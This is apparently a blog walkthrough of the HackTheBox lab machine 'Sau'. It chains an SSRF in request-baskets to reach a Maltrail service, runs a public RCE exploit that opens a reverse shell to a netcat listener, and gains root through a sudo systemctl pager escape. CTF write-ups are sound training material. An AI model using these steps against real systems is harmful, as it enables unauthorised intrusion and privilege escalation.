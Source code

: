 ```yaml
---
Platform: HackTheBox
Difficulty: Easy
tags:
  - RCE
  - SSRF
  - suid
Status: Rooted/Finished
Type: Machine
Title: Sau
Category: 
CreatedOn: 04-12-2023
---
```

# Sau

Hello everyone, In this blog we are going to solve Sau from HackTheBox.

Link for the machine : [https://app.hackthebox.com/machines/Sau](https://app.hackthebox.com/machines/Sau)

  

Lets Start 🙌

  

Connect to the HTB server by using the OpenVpn configuration file that’s generated by HTB.

[ [Click Here](https://help.hackthebox.com/en/articles/5185687-introduction-to-lab-access) to learn more about how to connect to vpn and access the boxes. ]

After connecting to the vpn service, click on Join Machine to access the machine’s ip.

After joining the machine you can see the IP Address of the target machine.

  

First I started by scanning for open ports on the target machine.

![Untitled.png](Sau/assets/Untitled.png)

![Untitled 1.png](Sau/assets/Untitled%201.png)

From the response of the `nmap` , there are 3 open ports of which one is SSH running on port 22, on port 80 HTTP service is running, but its filtered by firewall and the other one is running on port `55555` , which is unknown, but returns a response for HTTP GET request.

On visiting port 55555 on via browser, It returned a website.

![Untitled 2.png](Sau/assets/Untitled%202.png)

In the website is running the `request baskets` service version `1.2.1`. On searching about this service on google, found this: [https://www.exploit-db.com/exploits/51675](https://www.exploit-db.com/exploits/51675), which proves that the website is vulnerable to SSRF vulnerability. To exploit this vulnerability first create a new basket.

![Untitled 3.png](Sau/assets/Untitled%203.png)

Next make a note on the basket name and the access token and click on open basket.

![Untitled 4.png](Sau/assets/Untitled%204.png)

After opening the basket click on the settings icon on the top right corner.

![Untitled 5.png](Sau/assets/Untitled%205.png)

It open a configuration dialog box.

![Untitled 6.png](Sau/assets/Untitled%206.png)

On the configuration dialog box, fill the details as shown in the above figure and click apply. By configuring as mentioned above, we are trying to access the HTTP service running on port `80` which was blocked by the firewall on the target machine by leveraging the SSRF vulnerability.

Basically what ever URL we configure on request basket, the request basket will send a GET request on its behalf and fetch the results for us, in our case it acts like a proxy to fetch the website, which is not accessible to use from the outside network, but is accessible to request basket application, since it is running on the same network on which the web service is running.

![Untitled 7.png](Sau/assets/Untitled%207.png)

Now open the link [ mentioned in the above picture, link might be different in your case ] in a new tab.

![Untitled 8.png](Sau/assets/Untitled%208.png)

We can see a website which is running `Maltrail v0.53`, nothing else is interesting on the website. So I started searching about `Maltrail v0.53`, and found this [https://www.exploit-db.com/exploits/51676](https://www.exploit-db.com/exploits/51676), from which we can device that the service is vulnerable to RCE.

So I downloaded the payload [ [https://www.exploit-db.com/download/51676](https://www.exploit-db.com/download/51676) ] to give it a try.

![Untitled 9.png](Sau/assets/Untitled%209.png)

Before executing the payload, I started a `netcat` listener on port 8000.

![Untitled 10.png](Sau/assets/Untitled%2010.png)

Now its time to execute the payload.

Command: `python3 51676 <HTB_VPN_TUN_IP> 8000 <the_request_basket_address_that_we_used_to_access_the_web_service>`

![Untitled 11.png](Sau/assets/Untitled%2011.png)

After executing the exploit, check the `netcat` listener.

![Untitled 12.png](Sau/assets/Untitled%2012.png)

We successfully got the connection back. Now we got our initial access to the target machine. First I upgraded the shell.

Command: `python3 -c 'import pty; pty.spawn("/bin/bash")'`

![Untitled 13.png](Sau/assets/Untitled%2013.png)

And also I found the user flag.

![Untitled 14.png](Sau/assets/Untitled%2014.png)

Now its time to escalate our privileges and find the root flag.

I was looking out for some common privilege escalation vectors and found this.

![Untitled 15.png](Sau/assets/Untitled%2015.png)

The user `puma` can run the command `/usr/bin/systemctl status trail.service` as `sudo` without entering the password. I checked GTFObins regarding this and found this [https://gtfobins.github.io/gtfobins/systemctl/#sudo](https://gtfobins.github.io/gtfobins/systemctl/#sudo)

![Untitled 16.png](Sau/assets/Untitled%2016.png)

Thus if we run the command `sudo /usr/bin/systemctl status trail.service` , then run the command `!sh` after entering into the less page, we can escalate our privileges as root.

![Untitled 17.png](Sau/assets/Untitled%2017.png)

Now we have successfully escalated our privileges as root. Now its time to find the root flag.

![Untitled 18.png](Sau/assets/Untitled%2018.png)

We have successfully found the root flag.

  

  

Thank You…….